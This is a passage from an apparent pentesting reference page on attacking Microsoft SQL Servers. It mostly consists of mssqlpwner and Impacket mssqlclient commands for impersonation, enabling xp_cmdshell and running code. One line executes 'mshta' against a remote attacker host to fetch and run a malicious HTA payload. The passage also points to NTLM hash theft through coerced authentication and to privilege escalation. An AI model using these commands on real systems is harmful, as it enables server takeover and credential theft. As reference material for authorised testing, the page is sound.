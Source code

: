 ```bash
# Interactive mode
mssqlpwner <DOMAIN>/<USER>:<PASSWORD>@<TARGET> -windows-auth interactive

# Interactive mode with 2 depth level of impersonations
mssqlpwner <DOMAIN>/<USER>:<PASSWORD>@<TARGET> -windows-auth -max-impersonation-depth 2 interactive

# Executing custom assembly on the current server with windows authentication and executing whoami command 
mssqlpwner <DOMAIN>/<USER>:<PASSWORD>@<TARGET> -windows-auth custom-asm whoami

# Executing the whoami command using stored procedures with sp_oacreate method
mssqlpwner <DOMAIN>/<USER>:<PASSWORD>@<TARGET> -windows-auth exec "cmd /c mshta http://192.168.45.250/malicious.hta" -command-execution-method sp_oacreate

# Execute code using custom assembly
mssqlpwner <DOMAIN>/<USER>:<PASSWORD>@<TARGET> -windows-auth inject-custom-asm SqlInject.dll 
```
{% endtab %}

{% tab title="mssclient" %}
Using [mssqlclient](https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py) from [Impacket](https://github.com/fortra/impacket), we may be able to execute code.

```sql
$ mssqlclient.py -port 1433 <DOMAIN>/<USERNAME>:<PASSWORD>@<TARGET>
# Enable xp_cmdshell
SQL (dbo@master)> enable_xp_cmdshell
# Execute command
SQL (dbo@master)> xp_cmdshell whoami
```
{% endtab %}
{% endtabs %}

### Local Code Execution

To localy execute/read/write files on an MSSQL instance, see the following page:

{% content-ref url="../../web/infrastructures/dbms/exploit-databases.md" %}
[exploit-databases.md](../../web/infrastructures/dbms/exploit-databases.md)
{% endcontent-ref %}

### Coerced Auths (Stealing NTLM Hash)

On MS-SQL (Microsoft SQL) servers, the EXEC method can be used to access a remote SMB share. MSSQL uses **Keberos** to authenticate users so we can retrieve the NTLM hash.

{% content-ref url="../../ad/movement/mitm-and-coerced-authentications/living-off-the-land.md" %}
[living-off-the-land.md](../../ad/movement/mitm-and-coerced-authentications/living-off-the-land.md)
{% endcontent-ref %}

### MSSQL Privilege Escalation

{% tabs %}
{% tab title="Impersonate" %}
SQL Server has a special permission, named **`IMPERSONATE`**, that **allows the executing user to take on the permissions of another user** or login until the context is reset or the session ends.
